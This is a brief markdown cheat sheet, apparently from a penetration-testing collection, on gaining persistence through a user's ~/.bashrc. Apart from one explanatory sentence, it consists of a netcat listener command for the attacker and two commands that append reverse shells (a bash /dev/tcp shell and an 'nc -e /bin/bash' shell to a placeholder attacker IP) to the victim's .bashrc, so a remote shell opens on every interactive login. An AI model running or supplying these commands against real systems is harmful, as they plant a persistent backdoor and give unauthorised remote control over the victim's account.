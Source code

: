 # Bashrc
***

ChatGPT

When a user's login shell is set to bash, the ".bashrc" file located in their home directory is executed upon the launch of an interactive session.

## Attacker Machine
- setup a listner
  ```
  nc -lvnp 7777
  ```

## Target Machine
```
echo 'bash -i >& /dev/tcp/attackerIP/7777 0>&1' >> ~/.bashrc

# OR
echo 'nc -e /bin/bash <ATTACKER_IP> 7777 2>/dev/null &' >> ~/.bashrc
```
